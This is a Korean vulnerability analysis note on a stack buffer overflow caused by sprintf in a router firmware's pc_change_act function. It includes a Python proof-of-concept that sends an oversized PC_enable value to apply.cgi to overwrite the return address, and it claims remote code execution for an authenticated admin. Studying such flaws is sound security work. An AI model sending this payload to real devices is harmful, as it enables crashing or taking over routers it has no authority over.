 <br>

## 0.3. 취약점 분석 보고서 원본 정리

### 0.3.1. 취약점 원인

- 원인은 BoF
- BoF는 `sprintf` 함수 사용으로 인해 발생(sprintf 함수가 BoF에 취약한 함수로, 시큐어코딩 규약을 위반한 셈)
- 해당 함수는 타겟 펌웨어의 `pc_change_act` 함수 내부에 있음

<br>

### 0.3.2. 취약점 PoC

```python
import requests

target=input("Enter target IP: ")
session_id=input("Enter session_id: ")

url="http://"+target+"/apply.cgi;session_id="+session_id
headers={}
headers["User-Agent"]="Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0"
headers["Accept"]="text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8"
headers["Accept-Language"]= "en-US,en;q=0.5"
headers["Accept-Encoding"]= "gzip, deflate"
headers["Content-Type"] = "application/x-www-form-urlencoded"
headers["Origin"]="http://"+target
headers["Connection"]="close"
headers["Referer"]="http://"+target+"/apply.cgi;session_id="+session_id
headers["Upgrade-Insecure_Requests"]="1"

data={}
data["submit_button"]="GuestNetworkSetting"
data["gui_action"]="Apply"

pay=b"A"*0x30	#dummy
pay+=b"B"*4		#return address
data["PC_enable"]=pay

r=requests.post(url,headers=headers,data=data)
```

<br>

### 0.3.3. 취약점 익스플로잇 결과

- RCE
    - 웹 관리자 권한을 획득할 경우, `apply.cgi` 인터페이스에 들어가는 POST 요청에 `PC_enable` 파라미터를 삽입함으로써 RCE가 가능해짐

<br>
